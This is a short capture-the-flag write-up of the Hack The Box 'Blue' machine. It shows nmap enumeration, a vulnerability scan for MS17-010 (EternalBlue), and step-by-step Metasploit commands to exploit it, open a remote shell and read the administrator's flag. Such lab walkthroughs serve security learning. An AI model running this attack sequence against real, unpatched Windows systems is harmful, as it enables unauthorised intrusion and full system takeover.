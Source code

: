 #+title: Blue
#+author: Alex Crom
#+options: H: 2

* Synopsis
Take control over the windows computer and find user- en root:flags:.
Therefore find exploit ms17-010 and run it.

** :scroll: TL:DR
Get *Privilege Escalation* on a /*windows 7 Porfessional 7601 Service Pack 1 computer*/.

* :rocket: Getting started
We spawn the machine by clicking the button 

[[../img/blue_ip.png]]

and add the given ~ip~ to our ~/etc/hosts~ file:
#+begin_src bash
echo "10.129.231.168 blue.htb" | sudo tee -a /etc/hosts

#+end_src

* Enumeration
We start as always with a ~nmap~ scan:
#+begin_src bash
nmap -sV -sC -oA blue blue.htb

#+end_src
wich result in a interesting open port:

[[../img/blue_port_445.png]]


If we scan the port on vulernabilities:
#+begin_src bash
nmap --script smb-vuln-ms17-010 -p445 blue.htb

#+end_src

#+caption: vulnerability CVE-2017-0143
[[../img/blue_nmap_ms17-010.png]]

it revails a vulnerability called ms17-010 in Microsoft SMBv1 accorring to [[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143][CVE-2017-0143]].

* Expliotation
With ~msfconsole~ we can search for an exploit:

1. type ~msfconsole~ to start metasploit;
2. ~search ms17-010~;
3. ~use 0~;
4. show options gives the options for configuration;
5. ~set RHOSTS Blue.htb~
6. ~set LHOSTS 10.10....~
7. ~expliot~
8. ~shell~
9. ~whoami~
10. ~cd \Users\Administrator\Desktop~
11. type ~root.txt~

* :mortar_board: Lessons learned :mortar_board:
1. How to use ~msfconsole~;
2. How to explicit scan with ~nmap~ for a vulnerability scan;
3. Windows does not support linux syntax :nerd:
